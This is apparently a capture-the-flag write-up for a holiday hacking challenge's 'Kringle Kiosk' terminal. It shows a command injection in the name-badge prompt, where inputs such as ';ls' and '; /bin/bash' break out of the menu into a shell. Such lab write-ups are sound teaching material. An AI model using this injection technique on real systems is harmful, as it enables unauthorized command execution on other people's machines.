


# Shinny Upatree

---

## Kringle Kiosk



*Current Area: Castle Approach*


### Hints

1. 

   Link: [command injection](https://owasp.org/www-community/attacks/Command_Injection)
   
   

### Solution

Clicking on the Kringle Kiosk will reveal a terminal with the following text:

```
Welcome to our castle, we're so glad to have you with us!
Come and browse the kiosk; though our app's a bit suspicious.
Poke around, try running bash, please try to come discover,
Need our devs who made our app pull/patch to help recover?

Escape the menu by launching /bin/bash

Press enter to continue...
```

Following the instruction, we press enter:

```
~~~~~~~~~~~~~~~~~~~~~~~~~~~~
 Welcome to the North Pole!
~~~~~~~~~~~~~~~~~~~~~~~~~~~~
1. Map
2. Code of Conduct and Terms of Use
3. Directory
4. Print Name Badge
5. Exit

Please select an item from the menu by entering a single number.
Anything else might have ... unintended consequences.

Enter choice [1 - 5] 
```

After exploring the option, it seems like the vulnerability lies in option 4:

```
Enter choice [1 - 5] 4
Enter your name (Please avoid special characters, they cause some weird errors)...kambing
 _________
< kambing >
 ---------
  \
   \   \_\_    _/_/
    \      \__/
           (oo)\_______
           (__)\       )\/\
               ||----w |
               ||     ||
Press [Enter] key to continue...
```

After some trial and error, I noticed that entering `;` will enable me to execute shell scripts.

For example:

```
Enter choice [1 - 5] 4
Enter your name (Please avoid special characters, they cause some weird errors)...;ls
 _______________________
< Santa's Little Helper >
 -----------------------
  \
   \   \_\_    _/_/
    \      \__/
           (oo)\_______
           (__)\       )\/\
               ||----w |
               ||     ||
welcome.sh
Press [Enter] key to continue...
```

At the start of the launching the terminal, the message said to try run bash.

```
Enter choice [1 - 5] 4
Enter your name (Please avoid special characters, they cause some weird errors)...; /bin/bash
 _______________________
< Santa's Little Helper >
 -----------------------
  \
   \   \_\_    _/_/
    \      \__/
           (oo)\_______
           (__)\       )\/\
               ||----w |
               ||     ||
   ___                                                      _    
  / __|   _  _     __      __      ___     ___     ___     | |   
  \__ \  | +| |   / _|    / _|    / -_)   (_-<    (_-<     |_|   
  |___/   \_,_|   \__|_   \__|_   \___|   /__/_   /__/_   _(_)_  
_|"""""|_|"""""|_|"""""|_|"""""|_|"""""|_|"""""|_|"""""|_| """ | 
"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-' 
Type 'exit' to return to the menu.
shinny@5fb372afa943:~$ 
```

We have access to the terminal's bash!

---

